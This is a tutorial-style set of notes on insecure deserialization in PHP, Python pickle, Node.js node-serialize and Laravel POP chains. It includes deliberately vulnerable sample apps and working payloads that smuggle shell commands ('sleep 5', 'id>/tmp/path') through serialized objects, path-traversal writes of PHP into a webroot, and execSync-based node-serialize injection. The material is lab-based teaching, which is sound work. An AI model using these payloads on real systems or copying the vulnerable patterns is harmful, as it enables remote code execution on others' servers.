

Today, we will discuss serialization and the risks associated with this technique. Serialization is a common technique used in software development to convert complex objects into a format that can be easily stored or transmitted. This process allows data to be saved in files, sent over networks, or passed between different components of an application. However, serialization also introduces significant security risks if not properly managed. When an application deserializes untrusted data, it becomes vulnerable to various attacks.

---

## Initial Concept

---

**Serialization** is the name of the mechanism that allows us to **store the state of programmistic objects** in a sequency of bytes in a reversible way.

This way, an **object** can be **transported** remotely to **another program**.

The **receiving endpoint** should be able to reconstruct - **deserialize** - the received object in an unchanged state. 

Serialization is used widely in programming and can be used for

- **Storing and transferring data**
- **Calling remote procedures (RPC-like methods)**

Serializing data is also often referred to as **marshalling**. The reverse process of retrieving the original object out of a byte sequence is called **deserialization** or **unmarshalling**

Serialized data itself is not encrypted or signed in any way. Often, the data might be freely tampered with once spotted, which might bring unexpected results on the deserializing component. 

Serialized objects are most often encountered in WebAPP written in **PHP, Java, .NET**, but serialization is not limited to these languages only. 

Serialization **might not ONLY** be present on the WebAPP layer. An serialized object can be:



**Pop chain/Object chain/Object injection**

In the context of security vulnerabilities, these terms refer to techniques where objects within a system are concatenated, often leveraging third-party libraries. By creating a chain of functions, attackers can manipulate requests and potentially execute arbitrary code within the system.

## Serialization in PHP

---

In PHP, there are 'magic functions.' These are predefined functions that you don't need to create yourself, and they have specific purposes.

For example, the `__construct()` function is used as a constructor method:

```php
public function __construct() {
    if (isset($_SESSION['user'])) {
        $this->user = $_SESSION['user'];
        $this->role = $_SESSION['role'];
        $this->isauth = true;
    }
}
```

Additionally, there is something akin to a 'garbage collector,' which can handle tasks like deleting files. This can be done using the `__destruct()` function:

```php
public function __destruct() {
    shell_exec("rm -rf " . escapeshellarg($this->path) . "*");
}
```

These magic functions in PHP provide automatic handling of object initialization and cleanup, making your code more efficient and easier to manage.

*Abusing control over PHP serialized object is also called `PHP Object Injection`*

PHP uses the `serialize()` and `unserialize()` functions to perform serialization

- `(de)serialization`is used to store/transfer/transform whole objects → *Like in Java*
- Serialization is in **non-binary** **format** - *Similar to a JSON array / Human-readable → Unlike Java*

PHP serialized string looks like

```jsx
0:6:,,Abcdef":1:{s:9:,,Something";s:6:"Active";}
```

PHP **Serialized objects** contain information about the **type of object** → *Necessary for reconstruction.*

**Booleans** `b:<i>;` 

- `i` is  **0 or 1**  (True / False)

**Strings** `s:<i>:"<s>";` 

- `i` is the **string length**
- `s` is the **string itself**

**Arrays** `a:<i>:{<elements>}` 

- `i` is the **number of elements** in the array (integer)
- `elements` are zero or more serialized **key value** pairs of the form `<key><value>`

**Objects** (classes) `O:<i>:"<s>":<i>:{<properties>}`

- First `<i>` is the **string length** of `<s>` (integer)
- `<s>` is the fully qualified **class name**
- Second `<i>` number of **object properties** (integer)
- `<properties>` zero or more serialized **name-value** pairs `<name><value>`
    - `<name>` is a serialized string representing the **property name** `s:<i>:"<s>"`
        - `<i>` is the **string length** of `<s>`
    - `<value>` is any value that is serializable

The **visibility** of properties influences the value of `<s>`

- **Public Properties** → *simple name of the property*
- **Protected Properties → “ +** *prepended with* `\0*\0` *- asterix enclosed in two NULL bytes (0x00)*
- **Private Properties** →  “ + prepended with `\0<s>\0` - enclosed in two NULL bytes, where `<s>` is the fully qualified class name

In **WebAPP** might often encounter the PHP **serialized data to be base64 encoded** for transportation purposes.

### *Exploitation Strategies*

`PHP object injection` isn’t straightforward as its Java counterpart and depends heavily on the details of each vulnerability

There’s no **ysoserial** for php that gives easy RCE. 

Relies heavily on **HOW** the unserialized data is further handled. 

Unserialized data isn’t necessarily used unless some **magic methods** are in place.

[**Magic methods**](https://www.php.net/manual/en/language.oop5.magic.php) are functions available to be used in PHP Object-Oriented Programming. They’re functions that are being **launched dynamically** once a certain trigger is present.

They can be recognized in code by two underscores in the beginning of their names. Triggers:

- `__construct()` → *Loaded upon creating a new instance of a class*
- `__destruct()` → *Loaded when no more references of a current class are present in memory*
- `__wakeUp()` → *Loaded upon **deserializing an object***

**Example Code**

```php
<?php
define ('LOG', '/tmp/');
class DoLog
{
	private $filepath;
	public function __construct()
	{
		$this->filepath = LOG . "history.log";
		touch($this->filepath);
	
	}
	
	public function __destruct()
	{
		echo "\n[+] Logfile " . ($this->filepath) . "is beign removed\n";
		unlink($this->filepath);
	}
}

$log = new DoLog();
var_Export(serialize($log));

?>
```

- Upon creating a new instance of the class, it creates a log file (default constructor)
- File is then removed (default destructor)

The file will also output serialized data about the created class object. 

`php v.php`


```php
'O:5:"DoLog":1:{s:15:"' . "\0" . 'DoLog' . "\0" . 'filepath";s:16:"/tmp/history.log";}'
```

**Modifying the code by adding unserialization logic** 

```php
<?php
define ('LOG', '/tmp/');
class DoLog
{
	private $filepath;
	public function __construct()
	{
		$this->filepath = LOG . "history.log";
		touch($this->filepath);
	
	}
	
	public function __destruct()
	{
		echo "\n[+] Logfile " . ($this->filepath) . "is beign removed\n";
		unlink($this->filepath);
	}
}

$log = new DoLog();
var_Export(serialize($log));

$serialized = 'O:5:"DoLog":1:{s:15:"' . "\0" . 'DoLog' . "\0" . 'filepath";s:16:"/tmp/history.log";}';
$o = unserialize($serialized);

?>
```

Upon deserialization, the class’s magic methods will be run so that the file will be removed in the destructor function

`php v.php` 


The program tried to remove the log file **twice**, once upon the legitimate **class instantiation** and once upon the **deserialization**

Try to delete the arbitrary file. First need to create the `history.lol` file  → *Which has an equal filename length compared to the log file*


Now, the `$serialized` will be altered and `history.log` will be replaced with `history.lol`

```php
$serialized = 'O:5:"DoLog":1:{s:15:"' . "\0" . 'DoLog' . "\0" . 'filepath";s:16:"/tmp/history.lol";}';
$o = unserialize($serialized);
```

`php v.php`


The destructor function to be run on the `history.lol` file which was removed. This way, we were able to **manipulate serialized PHP** data in order to **alter the original** behavior of the file.

In the real world, such data often comes from other sources, for example, **HTTP request parameters**.

Exploitation of such vulnerability was possible because:

- Had access to the source code
- Had access to the original serialized payload → *knew what to alter in it*
- Vulnerable function was implemented in the default destructor → *data was used after the deserialization - There could be a case when data is unserialized but not used in a insecure manner.*

### “Simple” Example

**index.php**

```php
<?php
require_once("classes/Auth.class.php");
require_once("classes/FileManager.class.php");

if($_COOKIE['session'] and !empty($_COOKIE['session'])){
    $session = unserialize($_COOKIE['session']);

    if($session->isAuth()) {
        echo "está autenticado";
    } else {
        $session = new Auth();
        setcookie("session", serialize($session), time() + 3600);
        echo "não está autenticado";
    }
} else {
    $session = new Auth();
    setcookie("session", serialize($session), time() + 3600);
    echo "não está autenticado";
}

?>
```

**Auth.class.php**

```php
<?php

class Auth{

    public $user = "guest";
    public $role = "guest";
    public $session_status = false;

    public function isAuth() {
        return $this->session_status;
    }

    public function isAdmin() {
        if ($this->role == "admin") {
            return true;
        } else {
            return false;
        }
    }

    public function doAuth($user, $password) {
        if ($user == "admin" && $password == "admin") {
            return true;
        } else {
            return false;
        }
    }

}

?>
```

**FileManager.class.php**

```php
<?php 

class FileManager {
    public $path = "/home/kali/Desktop/eWPTX/serialization/insegura/tmp/";

    public function __construct() {
        file_put_contents($this->path . "log.txt", "Sessão iniciada no File Manager!");
    }

    public function putlog($content) {
        file_put_contents($this->path . "log.txt", $content);
    }

    public function readLog() {
        return file_get_contents($this->path . "log.txt");
    }

    public function __destruct() {
        shell_exec("rm -rf " . escapeshellarg($this->path) . "*");
    }
}

?>
```

The application checks user authentication using cookies that store serialized session objects. If the session does not exist or is not authenticated, a new session is created and serialized into the cookie. The `FileManager` class manages session logs and cleans up temporary files when destroyed.

So, if you verify the cookies in the browser you can see that the value is 

```php
"session": O%3A4%3A%22Auth%22%3A3%3A%7Bs%3A4%3A%22user%22%3Bs%3A5%3A%22guest%22%3Bs%3A4%3A%22role%22%3Bs%3A5%3A%22guest%22%3Bs%3A14%3A%22session_status%22%3Bb%3A0%3B%7D
```

If you use an urldecode you can see the serialized parameters of the object.

```php
O:4:"Auth":3:{s:4:"user";s:5:"guest";s:4:"role";s:5:"guest";s:14:"session_status";b:0;}
```

So to bypass the requisition, you can do this:

```php
O:4:"Auth":3:{s:4:"user";s:5:"guest";s:4:"role";s:5:"guest";s:14:"session_status";b:1;}
```

And then url encoded it

```php
O%3A4%3A%22Auth%22%3A3%3A%7Bs%3A4%3A%22user%22%3Bs%3A5%3A%22guest%22%3Bs%3A4%3A%22role%22%3Bs%3A5%3A%22guest%22%3Bs%3A14%3A%22session_status%22%3Bb%3A1%3B%7D
```

So this will trigger the function

```php
    if($session->isAuth()) {
        echo "está autenticado";
    }
```

But, if we instance the file manager.

**index.php**

```php
    if($session->isAuth()) {
        echo "está autenticado";
        echo "<br>";

        $fileManager = new FileManager();
        $fileManager->putlog("Sessão iniciada no File Manager!");
        $log = $fileManager->readLog();
        echo $log;
    } 
```

So after enter in the page with the session cookie, we can that that he created an file and then he deletes it.

```php
┌──(kali㉿kali)-[~/…/eWPTX/serialization/insegura/tmp]
└─$ ls -la 
total 12
drwxr-xr-x 2 kali kali 4096 Jul 25 15:52 .
drwxr-xr-x 5 kali kali 4096 Jul 25 15:18 ..
-rw-r--r-- 1 kali kali   33 Jul 25 15:52 log.txt
                                                                                                                                                                               
┌──(kali㉿kali)-[~/…/eWPTX/serialization/insegura/tmp]
└─$ cat log.txt  
Sessão iniciada no File Manager!                                                                                                                                                                               
```

So in this specific function in the File Manager, we have a possible command injection vulnerability.

```php
    public function __destruct() {
        shell_exec("rm -rf " . escapeshellarg($this->path) . "*");
    }
```

This happens because it takes a variable from the `FileManager` class, in this case, the `path`. When unserializing:

```php
    $session = unserialize($_COOKIE['session']);

```

The code does NOT validate which object is being deserialized, so instead of passing the serialized "Auth" object, one could pass the `FileManager` object:

```php
O:11:"Filemanager":1:{s:4:"path";s:25:"/tmp/auth; sleep 5; echo "}
```

Then, after encoding and sending it to the server, the following error occurs:

```php
[Thu Jul 25 16:18:27 2024] 127.0.0.1:42376 Accepted
[Thu Jul 25 16:18:27 2024] PHP Notice:  unserialize(): Error at offset 65 of 66 bytes in /home/kali/Desktop/eWPTX/serialization/insegura/index.php on line 6
[Thu Jul 25 16:18:27 2024] PHP Fatal error:  Uncaught Error: Call to a member function isAuth() on bool in /home/kali/Desktop/eWPTX/serialization/insegura/index.php:8
Stack trace:
#0 {main}
  thrown in /home/kali/Desktop/eWPTX/serialization/insegura/index.php on line 8
[Thu Jul 25 16:18:27 2024] 127.0.0.1:42376 [500]: GET / - Uncaught Error: Call to a member function isAuth() on bool in /home/kali/Desktop/eWPTX/serialization/insegura/index.php:8
Stack trace:
#0 {main}
  thrown in /home/kali/Desktop/eWPTX/serialization/insegura/index.php on line 8
```

It performs the deserialization and immediately calls the `isAuth()` function:

```php
    $session = unserialize($_COOKIE['session']);
    if($session->isAuth()) {
```

However, what matters is that since it calls a function from the `session`, it does NOT directly call the `FileManager` class because it only calls `__destruct` when PHP finishes interpreting the class. Therefore, you need a method where PHP forces the `__destruct` directly.

Consider the following code:

```php
<?php

class test {
    public function __destruct() {
        echo "test";
    }
}

$wtf = unserialize('a:2:{i:7;O:4:"test":0:{}i:7;i:7;}');
$wtf->test();

?>
```

We have an array with two positions `a:2`; the first position is named `7` and its value is an object `0:4:"Test":0:{}`. However, it is not specified at the end of the function that it will initiate another object `{}i` (usually there is a `;` at the end, making it `{};i`). When running, it indicates that the encoding is incorrect, but even so, it executes the value `test`.

```bash
┌──(kali㉿kali)-[~/Desktop/eWPTX/serialization/insegura]
└─$ php test.php              
testPHP Fatal error:  Uncaught Error: Call to a member function test() on array in /home/kali/Desktop/eWPTX/serialization/insegura/test.php:10
Stack trace:
#0 {main}
  thrown in /home/kali/Desktop/eWPTX/serialization/insegura/test.php on line 10
```

This happens because PHP still creates the `Test` object before processing the rest of the serialized string. The destructor is called when the object is destroyed, which happens when the deserialization process ends or when the script ends.

But this **ALWAYS** happens when an invalid array value is passed. For example, consider the following request:

```php
<?php

class test {
    public function __destruct() {
        echo "test 123";
    }
}

echo serialize(array('payload'=>new test()));
?>
```

```bash
test 123a:1:{s:7:"payload";O:4:"test":0:{}}                                                                                                                                                                               
```

Assigning this to the unserialized variable

```php
$wtf = unserialize('a:1:{s:7:"payload";O:4:"test":0:{}}');
$wtf->test();
```

It will give an error because the `test` function does not exist, which is correct.

```bash
──(kali㉿kali)-[~/Desktop/eWPTX/serialization/insegura]
└─$ php test.php
PHP Fatal error:  Uncaught Error: Call to a member function test() on array in /home/kali/Desktop/eWPTX/serialization/insegura/test.php:10
Stack trace:
#0 {main}
  thrown in /home/kali/Desktop/eWPTX/serialization/insegura/test.php on line 10
```

However, if we change the array size value:

```php
$wtf = unserialize('a:2:{s:7:"payload";O:4:"test":0:{}}');
```

The `__destruct` command is executed:

```bash
┌──(kali㉿kali)-[~/Desktop/eWPTX/serialization/insegura]
└─$ php test.php
PHP Notice:  unserialize(): Unexpected end of serialized data in /home/kali/Desktop/eWPTX/serialization/insegura/test.php on line 9
PHP Notice:  unserialize(): Error at offset 34 of 35 bytes in /home/kali/Desktop/eWPTX/serialization/insegura/test.php on line 9
**test 123**PHP Fatal error:  Uncaught Error: Call to a member function test() on bool in /home/kali/Desktop/eWPTX/serialization/insegura/test.php:10
Stack trace:
#0 {main}
  thrown in /home/kali/Desktop/eWPTX/serialization/insegura/test.php on line 10
```

Now, adapting this to the previously worked application scenario:

**exploit-fast-destruct.php**

```php
<?php

class FileManager {
    public $path = "/tmp/aula;sleep 5; echo ";
}

echo serialize(array('payload'=>new FileManager()));
?>
```

Then change it to two positions and encode it.

```bash
a:2:{s:7:"payload";O:11:"FileManager":1:{s:4:"path";s:25:"/tmp/aula/;sleep 5; echo ";}}
```

We can see that it worked because it waited 5 seconds:

```bash
[Thu Jul 25 17:00:30 2024] PHP Fatal error:  Uncaught Error: Call to a member function isAuth() on array in /home/kali/Desktop/eWPTX/serialization/insegura/index.php:8
Stack trace:
#0 {main}
  thrown in /home/kali/Desktop/eWPTX/serialization/insegura/index.php on line 8
[Thu Jul 25 17:00:30 2024] 127.0.0.1:53154 [500]: GET / - Uncaught Error: Call to a member function isAuth() on array in /home/kali/Desktop/eWPTX/serialization/insegura/index.php:8
Stack trace:
#0 {main}
  thrown in /home/kali/Desktop/eWPTX/serialization/insegura/index.php on line 8
[Thu Jul 25 17:00:35 2024] 127.0.0.1:53154 Closing
[Thu Jul 25 17:00:35 2024] 127.0.0.1:53162 Accepted

```

Now you need to modify the exploit to create a file, for example:

```php
public $path = "/tmp/aula;id>/tmp/path; echo ";
```

Sending the payload:

```bash
a:2:{s:7:"payload";O:11:"FileManager":1:{s:4:"path";s:29:"/tmp/aula;id>/tmp/path; echo ";}} 
```

Checking the file, it was possible to execute commands:

```bash
┌──(kali㉿kali)-[/tmp]
└─$ cat path         
uid=1000(kali) gid=1000(kali) groups=1000(kali),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),111(bluetooth),116(scanner),138(wireshark),141(kaboxer)
```

If the `__destruct` is in the following format:

```php
public function isAuth(){
    if($this->auth){
        return true;
    } else {
	      return false;
    }
}

public function __destruct() {
    if($this->role == "admin"){
        file_put_contents("/tmp/".$this->username, serialize($this));
    }
}

```

```bash
O:4:"Auth":3:{s:4:"auth";i:1:"guest";s:5:"admin";s:4:"role";s:5:"admin";s:4;}
```

In this case, it writes the content of the current class into a file. There are two vulnerabilities:

If the username is `../../var/www/html/test.php`, it will create this file with just the class content. However, if you put it this way, it will only write the class content.

Another thing is, since it uses the comparison `if($this->auth)`, this is equivalent to `if($this != 0 || $this != NULL)`, meaning we could modify the content

```bash
O:4:"Auth":3:{s:4:"auth";s:18:"<?php phpinfo();?>";s:27:"../../var/www/html/test.php";s:4:"role";s:5:"admin";s:4;}
```

## Other Serialization

---

*When looking for deserialization vulnerabilities, should **AWAYS** pay attention to data that*

- Contain strings that are similar to method names or object names
- Contain binary data
- Is in a complex, structured form

Source code of the target software is available, should inspect it for the presence of serialization-related methods

---

### Python

Serialized objects in Python are binary and not human-readable.

Additionally, in Python, there is a method similar to the `__destruct` magic method in PHP called `__reduce`. What is very convenient is that it is possible to control this `__reduce` function. Furthermore, there is no default function for serialization in Python; you need to import a library called `pickle`.

**Initial Example**

```python
import pickle

class Example(object):

    def show_example(self, name):
        print("Hello, " + name)

    
deserialization_example = Example()
deserialization_example.show_example("World")

serialized_object = pickle.dumps(deserialization_example) # serialize the object
print(serialized_object)

new_object = pickle.loads(serialized_object) # unserialize the object
new_object.show_example("Show example without serialization")
```

**Output**

```
Hello, World
b'\x80\x04\x95\x1b\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x94\x8c\x07example\x94\x93\x94)\x81\x94.'
Hello, Show example without serialization
```

Once you have control of the value that will be deserialized `deserialization_example`, it is possible to execute remote code.

Remembering the `__reduce__` method, note the following example.

```python
import pickle

class example(object):

    def __reduce__(self):
        return (print, ("test", ))
    
    def show_example(self, name):
        print("Hello, " + name)

    
desserialization_example = example()
desserialization_example.show_example("World")

serialized_object = pickle.dumps(desserialization_example) # serialize the object
print(serialized_object)

new_object = pickle.loads(serialized_object) # unserialize the object
new_object.show_example("Show example without serialization")
```

```
Hello, World
b'\x80\x04\x95"\x00\x00\x00\x00\x00\x00\x00\x8c\x08builtins\x94\x8c\x05print\x94\x93\x94\x8c\x05teste\x94\x85\x94R\x94.'
test
Traceback (most recent call last):
  File "c:\Users\arthu\Desktop\eWPTX\example.py", line 19, in <module>
    new_object.show_example("Show example without serialization")
    ^^^^^^^^^^^^^^^^^^^^^^^
AttributeError: 'NoneType' object has no attribute 'show_example'
```

Note that it serialized the object with the `print` function. After that, when it was deserialized, the “test” was called.

However, note that an error also occurred. This happens because when `__reduce__` is used, everything in the object is ignored, and only the return value of the function is "carried along."

Now imagine in a new context.

```python
import pickle 

class malicous_code(object):
    def __reduce__(self):
        return (print, ("I am a malicious code",))
    
object_malicous = pickle.dumps(malicous_code())
print(object_malicous)

pickle.loads(object_malicous)
```

```
b'\x80\x04\x952\x00\x00\x00\x00\x00\x00\x00\x8c\x08builtins\x94\x8c\x05print\x94\x93\x94\x8c\x15I am a malicious code\x94\x85\x94R\x94.'
I am a malicious code
```

Taking the output value and passing it **directly** into `pickle.loads`

```python
import pickle 

pickle.loads(b"\x80\x04\x952\x00\x00\x00\x00\x00\x00\x00\x8c\x08builtins\x94\x8c\x05print\x94\x93\x94\x8c\x15I am a malicious code\x94\x85\x94R\x94.")
```

```
I am a malicious code
```

Therefore, if it is possible to obtain control of the object in `pickle.loads`, you have control of the application.

---

### NodeJS

Just like in Python, the serialization library **is not default in Node.js**. The library that contains functions to serialize/deserialize objects is called `node-serialize`.

However, unlike Python, it is **human-readable**.

Consider the following example, where it is desirable to manipulate an object to transform it into JSON:

```jsx
const nodeserialize = require('node-serialize');

let user = {};

user.name = 'Hendrich';
user.email = 'hendrich@blog.com.br'

serialziedObj = nodeserialize.serialize(user);
console.log("Serialzied Object: ");
console.log(serialziedObj);

unserializeObj = nodeserialize.unserialize(serialziedObj);
console.log("Unserialzied Object: ");
console.log(unserializeObj);
```

```
Serialzied Object: 
{"name":"Hendrich","email":"hendrich@blog.com.br"}
Unserialzied Object: 
{ name: 'Hendrich', email: 'hendrich@blog.com.br' }
```

The cool thing is that it is possible to pass functions within the parameter, just like in Python. There is no magic method responsible for instantiating the class.

You can instantiate a function within the object. For example:

```jsx
const nodeserialize = require('node-serialize');

let user = {};

user.name = 'Hendrich';
user.email = 'hendrich@blog.com.br'
user.getDetails = function() {
    return "test";
}

serialziedObj = nodeserialize.serialize(user);
console.log(serialziedObj);
```

```
{"name":"Hendrich","email":"hendrich@blog.com.br","getDetails":"_$$ND_FUNC$$_function() {\r\n    return \"test\";\r\n}"}
```

In other words, it also serializes the function, allowing it to be reused from one location to another. Now, see what happens when deserializing:

```jsx
const nodeserialize = require('node-serialize');

let user = {};

user.name = 'Hendrich';
user.email = 'hendrich@blog.com.br'
user.getDetails = function() {
    return "test";
}

serialziedObj = nodeserialize.serialize(user);
obj = nodeserialize.unserialize(serialziedObj);
console.log(obj.getDetails());
```

```
test
```

Obviously, if this happens within the context of a Node.js application where it serializes a function, then sends it to the user's browser to be used in an application, it would be possible to modify the function to achieve RCE. But this does NOT happen in real scenarios (or at least I've never seen it).

However, there is a scenario where, during unserialization, it is possible to force the function to be called.

Observe the following code:

```jsx
const nodeserialize = require('node-serialize');

let user = {};

user.name = 'Hendrich';
user.email = 'hendrich@blog.com.br'
user.getDetails = function() {
    console.log("test");
}

serialziedObj = nodeserialize.serialize(user);
obj = nodeserialize.unserialize(serialziedObj);
console.log(obj);
```

```
{
  name: 'Hendrich',
  email: 'hendrich@blog.com.br',
  getDetails: [Function (anonymous)]
}
```

Note that it did not call `console.log("test")`.

Observing the JSON parameter formed during serialization, you can see that the function indeed exists, but why wasn't it executed?

```json
{
    "name": "Hendrich",
    "email": "hendrich@blog.com.br",
    "getDetails": "_$$ND_FUNC$$_function() {\r\n    console.log(\"test\");\r\n}"
}
```

To force the execution of this function during deserialization, you need to modify it as follows:

```json
{
    "name": "Hendrich",
    "email": "hendrich@blog.com.br",
    "getDetails": "_$$ND_FUNC$$_function() {\r\n    console.log(\"test\");\r\n}()"
}
```

This happens because during the deserialization process, it is necessary not only to instantiate a function but also to call it for execution.

```jsx
> nodeserialize = require('node-serialize');
{
  serialize: [Function (anonymous)],
  unserialize: [Function (anonymous)]
}
> nodeserialize.unserialize('{"myFunction":"_$$ND_FUNC$$_function(){console.log(\'JUST DONT\')}"}');
{ myFunction: [Function (anonymous)] }
>
```

It even identifies that it is a function but nothing happens. Now, adding `()` at the end of the function creation:

```jsx
> nodeserialize.unserialize('{"myFunction":"_$$ND_FUNC$$_function(){console.log(\'JUST DONT\')}()"}');
JUST DONT
{ myFunction: undefined }
>
```

Thus, it is possible to generate a serialized object, obtain it, and modify it with the desired value for execution and add the `()` at the end.

In this way, it is necessary to understand what is inside the JSON, manipulate the values, and send them to the backend.

It is possible that an application sets a session cookie as JSON:

```jsx
{"username": "hendrich@blog.com.br", "id": 12453464564.2675}
```

So, in the place of the username, you could pass a malicious function to it:

```jsx
const nodeserialize = require('node-serialize');

let user = {};

user.username= function() {require('child_process').execSync('sleep 5')};
user.id = 12453464564.2675
serialziedObj = nodeserialize.serialize(user);
console.log(serialziedObj);
```

```jsx
{"username":"_$$ND_FUNC$$_function() {require('child_process').execSync('sleep 5')}","id":12453464564.2675}
```

*Note: The `child_process` library is built-in in Node.js, so there is no need to worry.*

Now making some modifications to the output, note that in addition to `()`, a return value will be added to the function with the same value previously obtained in the initial request to avoid conflicting with the expected behavior of the application:

```jsx
{
    "username": "_$$ND_FUNC$$_function() {require('child_process').execSync('sleep 5');return "hendrich@blog.com.br";}()",
    "id": 12453464564.2675
}
```

In this case, note that the one unserializing could be an API and not the application itself.

For this application, this could be the back-end:

```jsx
const nodeserialize = require('node-serialize');
const express = require('express');
const cookieParser = require('cookie-parser');
const fs = require('fs');

const app = express();
app.use(cookieParser());

app.get('/api/verify', (req, res) => {
    res.setHeader('Content-Type', 'application/json');
    if (req.cookies.session) {
        try {
            let userInfo = nodeserialize.unserialize(req.cookies.session);

            let rawdata = fs.readFileSync('users.json');
            let users = JSON.parse(rawdata);

            let valid_user = false;
            users.forEach(user => {
                if (user.username === userInfo.username && user.password === userInfo.password) {
                    valid_user = true;
                }
            });

            res.json({status: valid_user});
        } catch (error) {
            res.status(500).json({status: false, error: 'Invalid session data'});
        }
    } else {
        res.status(400).json({status: false, error: 'No session cookie found'});
    }
});

app.listen(3000, () => {
    console.log('Server running on port 3000');
});
```

The application directly unserializes the session cookie using `node-serialize` without validating or sanitizing the input. This allows an attacker to craft a malicious serialized object and send it as a cookie.

## Pop Chains Concept

---

Code-reuse / POP-Attack refers to utilizing existing parts of the application to manipulate it as desired.

In other words, it involves chaining existing properties of the application to execute a specific action, such as RCE, SQL Injection, etc.

**Attack Surface**


In most programming languages, there are three main pillars: Code, Libraries (libs), and Frameworks.

In languages like Java and .NET, there is another pillar: the Operating System (OS), where it is possible to use the runtime of the OS in the insecure deserialization process, executing built-in system functions.

In most applications, frameworks dominate the majority of the code. Next are the libraries used in the application to avoid rewriting large parts of the code. Then, the code written by the developer.

Often, the popchain process is used on the libraries and frameworks instead of directly attacking the developed application. Thus, a serialization gadget is manually assembled, reusing code (Code-reuse attack) to execute a specific action.

**Code Review in Applications**

 

**Example 01: Code with vulnerability created by the developer.**

index.php

```php
<?php

require_once "class/Auth.class.php";

$auth = new Auth();
if($auth->isLogged() and $auth->isSuperUser()) {
    echo "Welcome, super user!";
} else {
    echo "You are not logged in or you are not a super user!";
}

?>
```

Auth.class.php

```php
<?php 

class Auth{

    public $auth = 0;
    public $name = 'randomUser';
    public $role = 'guest';

    public function __construct(){
        if(isset($_COOKIE['session']) and !empty($_COOKIE['session'])){
            $session = unserialize(base64_decode($_COOKIE['session'])); # 1
            $this->auth = $session['auth'];
            $this->name = $session['name'];
            $this->role = $session['role'];
            return $this;
        } else {
            setcookie('session', base64_encode(serialize($this)), time() + 3600, '/');
            return $this;
        }
    }

    public function isLogged(){
        if($this->auth){
            return true;
        } else {
            return false;
        }
    }

    public function isSuperUser(){
        if($this->role == 'superuser'){
            return true;
        } else {
            return false;
        }
    }

    public function __destruct() {
        if($this->role == 'superuser'){
            echo "Welcome, super user!";
            file_put_contents('superuser.txt'.$this->name, serialize($this)); # 2
        } else {
            echo "You are not logged in or you are not a super user!";
        }
    }

}
```

# 1:  Insecure deserialization. It is deserializing data coming directly from the user.

# 2: Path Traversal, the username becomes `../../../../../var/html/shell.php` and writes the session cookie content.

**Example 02: Code with vulnerability generated from using a LIB.**

In this case, the **Laravel** framework will be used. If you want to simulate it, here are the docker configurations.

**docker-compose.yml**

```docker
version: '3.8'

services:
  app:
    build:
      context: .
      dockerfile: Dockerfile
    container_name: laravel_app
    ports:
      - "9000:9000"
    volumes:
      - ./app:/var/www/html
    working_dir: /var/www/html
    command: bash -c "composer install && php-fpm"

  web:
    image: nginx:alpine
    container_name: laravel_web
    ports:
      - "8080:80"
    volumes:
      - ./app:/var/www/html
      - ./nginx.conf:/etc/nginx/conf.d/default.conf
    depends_on:
      - app

  composer:
    image: composer:latest
    container_name: laravel_composer
    volumes:
      - ./app:/var/www/html
    working_dir: /var/www/html
    command: bash -c "composer create-project --prefer-dist laravel/laravel ."
```

**Dockerfile**

```docker
FROM php:8.2-fpm

RUN apt-get update && apt-get install -y \
    git \
    unzip

RUN curl -sS https://getcomposer.org/installer | php -- --install-dir=/usr/local/bin --filename=composer

WORKDIR /var/www/html

```

**nginx.conf**

```
server {
    listen 80;
    index index.php index.html;
    server_name localhost;

    root /var/www/html/public;

    location / {
        try_files $uri $uri/ /index.php?$query_string;
    }

    location ~ \.php$ {
        fastcgi_pass app:9000;
        fastcgi_index index.php;
        fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
        include fastcgi_params;
    }
}
```

**Commands**

```
docker-compose build
docker-compose up -d
docker-compose run --rm app composer install
docker-compose run --rm app php artisan key:generate
```

Observe that inside the vendor folder there are various libraries installed by default in the application. The diversity of libraries installed does not necessarily mean they will all be used by you, not to mention the code that comes with them.


This expands the possibilities that if any of these libraries have vulnerabilities, they can be exploited by an attacker in the application.

For example, looking for libraries that execute a `file_put_contents`


If somehow the parameters could be manipulated, RCE could be achieved through Code-reuse.

**Requirements to use Popchain and achieve RCE:**

- **Trusted User Input:**
    - The system must trust user inputs, such as in the case of `unserialize` or `json_decode`, where the data can be manipulated by the attacker.
- **Magic Methods:**
    - Utilization of magic methods like `__wakeup` and `__destruct` which allow the execution of code during the deserialization and destruction of objects.
- **Gadget Chain:**
    - Construction of a gadget chain. Gadgets are small pieces of existing code in the application that can be chained together to form a logical sequence that the attacker can control to achieve arbitrary code execution.
- **Code Reuse:**
    - The ability to reuse existing code (in libraries, frameworks, or the application’s own code) to execute malicious actions, such as `file_put_contents` to write files or `system` to execute commands.

## Serialization in .NET

---

*Instead of using just one universal method like `serialize()`, it uses a few different mechanisms for serialization and de-serialization of data.* 

*Data **serialized** using one of these **mechanisms** must be **de-serialized using the same one**.*

Saving the states of objects using serialization in .NET can be done using various methods.

- `BinaryFormatter` → *Serializes data to a binary file*
- `DataContractSerializer` → *Serializes data to XML with more control over the serialization process through attributes.*
